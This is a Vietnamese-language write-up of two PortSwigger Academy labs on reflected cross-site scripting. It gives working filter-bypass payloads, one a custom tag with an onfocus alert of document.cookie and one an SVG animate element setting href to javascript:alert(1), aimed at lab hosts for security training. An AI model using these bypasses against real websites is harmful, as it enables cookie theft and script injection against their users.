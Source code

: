 ### Lab: Reflected XSS into HTML context with all tags blocked except custom ones <a name="html-context-custom-tags-allowed"></a>

Đường dẫn đến lab: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked

Bài Lab này cũng tương tự như phần chặn hầu hết các tags và attribute, tuy vậy nó sẽ cho ta sử dụng custom tags. Lab yêu cầu ta thực hiện alert ra *document.cookie*. Vì nó đã block hết tags nên ta không thể truyền script vào được:

![Block các tags](html-context-custom-tags-allowed/blocked-tag.png)

Thế thì ta chỉ cần custom cái tag lại và Delivery đến lab:
`Payload: <script> location='https://ac431f2f1efc3d82c04819bd00a6002d.web-security-academy.net/?search=<nh4ttruong+id=x+onfocus=alert(document.cookie)+tabindex=1>#x'; </script>`

Dùng `onfocus` để trigger đến alert, dùng #x để trỏ ngay đến id của tag.

![Solved](html-context-custom-tags-allowed/solved.png)

### Lab: Reflected XSS with event handlers and href attributes blocked <a name="event-handlers-and-href-attributes-blocked"></a>

Đường dẫn đến lab: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked

Bài Lab yêu cầu ta thực hiện Reflected XSS khi các event handlers và href attribute đã bị block. Bên cạnh đó, sử dụng vector để gọi alert. Do vậy, mình sẽ sử dụng [*svg*](https://developer.mozilla.org/en-US/docs/Web/SVG/Element/animate) tag để trigger alert vì nó có thẻ con là `animate` và trong `animate` có thuộc tính *attributeName*, *values* và mình có thể thêm href cũng như script vào tùy ý.

`Payload: https://ace01fe61f679bb0c0a0298b00bc0014.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%3C%2Ftext%3E%3C%2Fa%3E`
